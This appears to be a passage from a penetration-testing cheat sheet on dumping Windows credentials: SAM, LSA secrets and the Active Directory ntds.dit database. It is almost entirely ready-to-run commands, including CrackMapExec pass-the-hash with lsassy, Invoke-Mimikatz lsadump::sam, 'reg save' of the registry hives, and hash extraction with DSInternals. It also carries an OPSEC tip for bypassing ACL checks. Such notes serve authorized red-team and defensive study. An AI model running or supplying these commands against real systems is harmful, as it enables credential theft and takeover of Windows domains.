 #### Nanodump
- https://github.com/fortra/nanodump

## Dumping SAM
#### Impacket - regsecrets.py
- https://github.com/fortra/impacket/pull/1898
- OPSEC: The BaseRegOpenKey method contains a dwOptions argument that accepts a REG_OPTIONS_BACKUP_RESTORE value. Opening a key with this intent will bypass any ACL check, therefore, allowing to dump secrets while only interacting with the svcctl named pipe and the RemoteRegistry service.
	- https://www.synacktiv.com/publications/lsa-secrets-revisiting-secretsdump
```
regsecrets.py
```


#### Crackmapexec
```
cme smb <COMPUTERNAME> -d <DOMAIN> -u <USER> -H <NTLM HASH> --lsa
cme smb <COMPUTERNAME> -d <DOMAIN> -u <USER> -H <NTLM HASH> -M lsassy
```

#### Mimikatz dump SAM
```
Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "lsadump::sam"'
```

#### Manually
```
reg save HKLM\SAM SamBkup.hiv /Y
reg save HKLM\System SystemBkup.hiv /Y
reg save HKLM\Security SecurityBkup.hiv /Y

mimikatz.exe
mimikatz # lsadump::sam SamBkup.hiv SystemBkup.hiv SecurityBkup.hiv
```

## Dumping ntds.dit
#### Copy SYSTEM and ntds.dit
```
Copy-Item C:\Windows\system32\config\SYSTEM <PATH>
Copy-Item C:\Windows\ntds\ntds.dit <PATH>
```

#### Load DSinternals
- https://github.com/MichaelGrafnetter/DSInternals/releases/tag/v4.4.1
```
unblock-file DSInternals_v4.7.zip
expand-archive DSInternals_v4.7.zip -DestinationPath C:\Windows\system32\WindowsPowerShell\v1.0\Modules\DSInternals
```

#### Dump with DSinternals
```
$key = Get-BootKey -SystemHiveFilePath <PATH TO SYSTEM>
Get-ADDBAccount -all BootKey $key -DBPath <PATH TO ntds.dit>

Get-ADDBAccount -samaccountname administrator -BootKey $key -DBPath <PATH TO ntds.dit>
```

